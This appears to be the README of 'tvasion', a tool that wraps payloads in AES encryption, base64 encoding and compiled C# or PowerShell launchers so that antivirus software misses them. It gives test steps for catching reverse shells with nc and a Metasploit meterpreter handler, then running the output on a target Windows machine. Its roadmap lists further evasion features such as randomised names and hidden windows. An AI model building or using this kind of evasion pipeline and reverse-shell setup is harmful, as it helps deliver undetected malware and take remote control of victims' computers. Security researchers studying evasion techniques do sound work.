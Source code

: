 ./templates/lib/ contain helper which get encrypted together with payload. You do not need to care about these files for a successful AV evasion.

Payload is created by [tvasion.ps1](tvasion.ps1) like this:
```
        -> gzip compression -> base64 encoding -> pasted & compiled into C# dotnet assembly -> AES encryption -> base64 encoding -> pasted & compiled into C# windows executeable (.exe -> .exe)
payload -> AES encryption -> base64 encoding 
                                -> pasted into powershell script (.ps1 -> .ps1) 
                                        -> base64 encoding 
                                                -> pasted & compiled into C# windows executeable (.ps1 -> .exe)             
                                                -> pasted into batch file (.ps1 | .exe -> .bat)
```

### Obscure options

| Option        |  Explanation  |
| ------------- | ------------- |
| -t b64ps1  | base64 encoded AES encrypted powershell output. "base64 powershell" @ template table |
| -t b64  | plain base64 encoded output (encoding only) |

For more options see:
```shell
 ./tvasion.ps1 -h
```

### Tests
Powershell reverse shell is included in ./tests/ folder for testing purposes. 

Run tests:
- [setup metasploit framework](https://metasploit.help.rapid7.com/docs/installing-the-metasploit-framework)
- change IP to your IP in configruation block of: ./tests.ps1
- run msfconsole in seperate terminal
- run ./tests.ps1 for compilation / test file creation. see ./out/ for results
- listen for reverse connections on linux machine:
```shell
# listen for reverse shell connections from ./tests/ReverseShell.ps1
nc -nvlp 4242
```
```shell
# use msfconsole you opened in other terminal, we need this launched before to generate Meterpreter in ./tests.ps1
# listen with metasploit multi handler for windows/meterpreter/reverse_tcp on port 4444 (tests.ps1 generated Meterpreter will connect this port)
cd ./tvasion/tests/
msfconsole
resource msf_multihandler.rc
```
- copy files from ./out/ directory to target Windows machine & execute

## Roadmap / TODO / ideas (feel free to work on)
- add shellcode payloads as input / output type
- add compression / script comment removement for powershell payloads / templates
- add better / alternative templates
    - fix ps1 -> exe payload size restriction / add alternative C# launcher via System.Management.Automation
    - add alternative ps1 -> ps1 template via System.Management.Automation
    - add encrypted window hide via kernel32 to all powershell stage2 templates (scanners may match for -windowstyle hidden on pwsh launch)?
- add more evasion / obfocusation functionality:
    - randomize variable names, white spaces / line breaks / tabs, call order (between markers only)
    - hide native method names